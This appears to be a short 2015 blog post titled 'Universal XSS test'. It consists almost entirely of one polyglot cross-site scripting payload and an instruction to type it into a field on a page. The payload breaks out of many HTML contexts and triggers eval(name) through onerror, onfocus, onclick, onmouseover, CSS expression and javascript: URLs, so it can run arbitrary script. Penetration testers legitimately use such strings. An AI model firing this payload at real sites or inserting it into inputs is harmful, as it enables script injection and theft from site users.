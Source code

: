 ```yaml
---
layout: post
title: Universal XSS test
date: 2015-08-27
---
```

This is  universal XSS test
type it into some field on your page
```javascript
javascript:/*--></marquee></script></title></textarea></noscript></style></xmp>">[img=1]<img -/style=-=expression&#40&#47;&#42;’/-/*&#39;,/**/eval(name)//&#41;;width:100%;height:100%;position:absolute;behavior:url(#default#VML);-o-link:javascript:eval(title);-o-link-source:current name=alert(1) onerror=eval(name) src=1 autofocus onfocus=eval(name) onclick=eval(name) onmouseover=eval(name) background=javascript:eval(name)//>"
```